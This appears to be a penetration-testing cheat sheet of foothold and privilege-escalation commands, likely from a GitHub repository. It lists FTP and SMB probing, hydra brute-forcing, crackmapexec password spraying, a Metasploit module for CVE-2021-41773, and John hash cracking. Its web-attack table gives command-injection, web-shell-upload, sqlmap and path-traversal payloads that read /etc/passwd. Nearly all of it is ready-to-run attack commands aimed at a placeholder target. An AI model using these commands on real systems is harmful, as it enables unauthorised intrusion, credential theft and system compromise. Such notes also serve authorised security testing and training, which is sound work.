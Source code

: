 ## Foothold

### Low-hanging fruit

|   |   |
|---|---|
|Check|Handy commands|
|Anonymous FTP|`ftp <target>` → `anonymous / <blank>`|
|List SMB shares|`smbclient -L //<target> -N`|
|Default logins|`nmap --script http-default-accounts -p80,8080 <target>` / `hydra -L users.txt -P passwords.txt <target> http-get /admin`|

### Search for known exploits

- `searchsploit -m 49283` (download exploit)
- `msfconsole -q` → `search CVE-2021-41773` → `use exploit/multi/http/apache_path_traversal`

### Credential attacks

- **Password reuse / spray:** `crackmapexec smb <target> -u users.txt -p "Summer2024"`
- **Brute-force:** `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<target>`
- **Hash-crack:** `john --wordlist=rockyou.txt hash.txt`

### Web attacks

|   |   |
|---|---|
|Vector|Go-to snippet|
|Command injection|`curl -G "http://<target>/ping?ip=127.0.0.1;id"`|
|File uploads|`curl -F "file=@shell.php" http://<target>/upload.php` then browse `/uploads/shell.php`|
|SQLi|`sqlmap -u "http://<target>/item.php?id=1" --batch --current-db`|
|Other (LFI/RFI)|`curl "http://<target>/index.php?page=../../../../etc/passwd"`|
|CMS exploit|`wpscan --url http://<target> --enumerate vp --api-token <token>` then `searchsploit <vuln>`|

## Privilege Escalation

### Quick recon

```Shell
whoami          # Windows: whoami /all
id              # Linux
sudo -l         # Linux
systeminfo      # Windows OS & patch level
uname -a        # Linux kernel
```
